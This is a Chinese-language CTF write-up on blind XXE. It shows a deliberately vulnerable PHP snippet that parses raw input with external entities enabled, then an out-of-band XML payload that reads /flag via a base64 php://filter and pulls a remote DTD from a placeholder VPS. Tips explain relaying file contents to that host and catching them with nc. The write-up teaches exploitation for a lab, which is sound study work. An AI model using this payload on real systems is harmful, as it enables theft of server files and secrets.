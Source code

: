 无回显XXE ，外部实体。

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

无回显，考虑数据外带，访问一个请求，把数据加到请求上。

payload：

```xml
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY  % myurl SYSTEM "http://vps-ip/test.dtd">

    %myurl;
]> 
<root>
1
</root>
```

tips：

```xml
<!-- 要引用（dtd里面），所以要加百分号% -->
<!-- /flag 改成 /etc/passwd 可能会失败，因为内容太多了 -->
<!-- 不能直接<!ENTITY  % myurl SYSTEM "http://vps-ip:port/%file"> ，因为默认不允许把本地文件发送到远程dtd里面，需要绕一圈，绕过这个限制-->
<!-- %myurl;会读取远程dtd文件，读到了以后，因为远程dtd文件有一个实体的定义（% dtd），那么就会解析这个实体定义。（% dtd）实体的定义内容是另外一个实体定义（&#x25; vps），那就会解析（&#x25; vps），就会执行远程请求，请求地址（http://vps-ip:port/%file），会在我们的vps日志上留下痕迹。
也可以起nc监听端口，能判断是否有向我们的vps发送请求以及请求内容。起nc的话% myurl的值，不要加端口，就vps-ip够了。
总结就是，%myurl 这种引用会自动向地址发送请求。 -->
```
